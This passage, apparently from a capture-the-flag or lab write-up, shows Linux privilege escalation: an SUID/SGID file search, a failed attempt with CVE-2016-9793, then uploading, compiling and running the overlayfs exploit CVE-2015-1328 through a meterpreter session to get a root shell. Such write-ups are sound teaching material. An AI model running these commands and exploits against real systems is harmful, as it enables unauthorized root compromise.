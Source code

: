 Next, I checked for files on the system with the SUID or SGID bit set (allowing execution as the owner of said file) using `find / -perm /6000 2> /dev/null`. As with the previous checks - this returned nothing of interest.

With quite a bit of recon work done and nothing promising to follow up on, I went back to looking at exploiting the kernel. The first exploit I tried was [CVE-2016-9793](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-9793) but I ran into compiler issues.

I then moved on to trying the overlayfs exploit ([CVE-2015-1328](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1328)), as the kernel version falls within the affected range and this particular exploit has been reliable in almost all cases I've tried it.

I uploaded the source code of the exploit, compiled it and gave it execution permission:

```shell_session
meterpreter > upload /usr/share/exploitdb/platforms/linux/local/37292.c
[*] uploading  : /usr/share/exploitdb/platforms/linux/local/37292.c -> 37292.c
[*] uploaded   : /usr/share/exploitdb/platforms/linux/local/37292.c -> 37292.c
meterpreter > shell
Process 1472 created.
Channel 14 created.
gcc 37292.c -o ofs
chmod +x ofs
```

And finally... I got root!

```shell_session
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

